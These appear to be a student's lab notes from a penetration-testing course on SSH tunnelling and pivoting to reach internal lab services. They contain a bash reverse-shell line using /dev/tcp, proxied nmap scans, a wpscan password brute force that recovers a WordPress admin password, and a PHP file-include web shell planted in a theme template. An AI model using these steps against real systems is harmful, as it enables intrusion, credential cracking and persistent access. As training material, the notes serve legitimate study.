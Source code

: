 
###### 20.2.2.5
There is an internally hosted website on the target VM #1 which is reachable only from the server's **local address space**. Browse to this server to get the flag  

```bash
ssh -N -L 0.0.0.0:8080:127.0.0.1:80 student@192.168.126.52 -p 2222
```
	first octet: local (attack) listener  
	second octet: target in perspective of the box you're tunneling through  
	user@ip: compromised victim used for tunneling  
  
```bash
curl localhost:8080
```  
	(also, I literally ssh'd into the machine and cat'd /var/www/html/index.html, but that's not the point of this exercise, so...)  
  

  
###### 20.2.4.4
The target VM #1 machine has an exploit that is triggered by root every minute that executes a basic _reverse shell_.  
Unfortunately, that shell is trying to connect back to the internal port _5555_ on _127.0.0.1_ on that server, and the server has no tools available to catch this shell.  
To solve this challenge, forward this reverse shell callback from the remote server to your local machine and then use this shell to read the flag.  
  
On Kali: ssh -N -R target_vm:shell_port:kali_localhost:arbitrary_port:
```bash
ssh -N -R 192.168.126.52:5555:127.0.0.1:2221 student@192.168.126.52 -p 2222  
  
  
	<different terminal window>  
  
nc -nlvp 2221
```
	** Can take a minute to get the reverse shell. If nc listener errors out, start the listener first, _then_ ssh

```bash
cat rev.sh  
#!/bin/bash  
bash -i >& /dev/tcp/127.0.0.1/5555 0>&1
```

  

###### 20.2.6.6
There is a service running on some TCP port in the range of _30000-35000_ on the target VM #1.  
Find it, and you will find the flag. _Note_: scan takes a couple minutes  

```bash
ssh -N -D 127.0.0.1:8080 student@192.168.173.52 -p 2222  
  
  
	<different terminal window>  
  
proxychains nmap 127.0.0.1 -Pn -p 30000-35000  
	...  
	[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:33525 <-socket error or timeout!  
	[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:31124 <--socket error or timeout!  
	Nmap scan report for localhost (127.0.0.1)  
	Host is up (0.066s latency).  
	Not shown: 5000 closed tcp ports (conn-refused)  
	PORT      STATE SERVICE  
	34023/tcp open  unknown  
  
proxychains nc -nvv 127.0.0.1 34023
```
	nc conn may be a little laggy  
  

  
###### 20.2.6.7
There is a WordPress instance running on the target VM #2 that is only accessible locally.  
The flag is not simply in a post once you log in - you need to use this administrative web to gain access to the box as _www-data_.  
To save you time, the admin user is _offsec_. Use your local user SSH access to forward your password attack traffic to this server to determine the admin password.  
Then, utilize this admin access to get a web shell and, finally, read _/home/flag.txt_ to solve this challenge.  
_Note_: for this exercise try different well-known wordlists. Also, make sure to block browser's DNS requests over proxychains.  

```bash
ssh -N -D 127.0.0.1:8080 student@192.168.173.52 -p 2222  
  
  
	<different terminal window>  
  
proxychains nmap 127.0.0.1 -Pn  
	PORT     STATE SERVICE  
	22/tcp   open  ssh  
	80/tcp   open  http  
	3306/tcp open  mysql  
  
  
proxychains wpscan --url http://127.0.0.1/wp-login.php -U offsec -P /usr/share/wordlists/rockyou.txt  
	[!] Valid Combinations Found:  
	 | Username: offsec, Password: amanda1  
  
  
proxychains -q firefox http://localhost:80/wp-login.php
```
	****NOTE: firefox loading will take FOREVER.  
  
Login w/ creds.  
Once at WP Dashboard, On left -  
GoTo - Appearence > Editor > (right side) 404.php Template  
Add & Update file:  
```php
<?php  
    $file = $_GET["file"];  
    include $file;  ?>
```

Navigate to: hXXp://127.0.0.1/wp-content/themes/<theme_name>/404.php?file=/home/flag.txt